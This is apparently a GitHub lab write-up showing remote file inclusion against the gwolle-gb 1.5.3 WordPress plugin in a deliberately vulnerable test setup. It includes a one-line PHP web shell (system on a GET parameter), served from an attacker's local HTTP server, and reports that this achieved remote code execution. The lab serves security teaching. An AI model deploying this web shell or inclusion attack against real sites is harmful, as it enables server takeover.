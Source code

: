 # RFI-Remote-file-inclusion
RFI lab

As the name of this technique suggests, a remote file inclusion occurs when a webserver points at a file, directory, etc. that is not hosted on the webserver itself. We can therefore find ways for it to execute arbitrary code :).

For example, let’s take a look at the following wordpress plugin: gwolle-1.5.3

To exploit the webserver just clone the github directory and follow the installation procedure:

```Bash
git clone https://github.com/vavkamil/dvwp
```
We also have to download the vulnerable version of gwolle which can be found easily in the wordpress plugins directory: https://downloads.wordpress.org/plugin/gwolle-gb.1.5.3.zip

With the help of searchsploit we can try to find an exploit (which there is ofc!)

![gwolle_exploit](https://github.com/user-attachments/assets/2d6b2721-4ba0-4e1b-8e67-0ac219f79262)

Let’s have a look at the exploit.
![url_vuln](https://github.com/user-attachments/assets/bfebf5aa-497f-4648-ac78-d073b66b515f)

The vulnerability lies in parameter which sends a GET request to a file called “wp-load.php”. As the attackers, we can think about creating a malicious “wp-load.php” file stored on a local server:
```Python
# Setting up a simple http server
python3 -m http.server 1234
```

```PHP
# Creating our malicious wp-load.php
<?php
	system($_GET["cmd"]);
?>
```

Now let’s take a look at the server’s response:

![response](https://github.com/user-attachments/assets/15e5a7d0-3af7-48c6-b2c5-44515c31a590)

We have achieved remote code execution on the server!
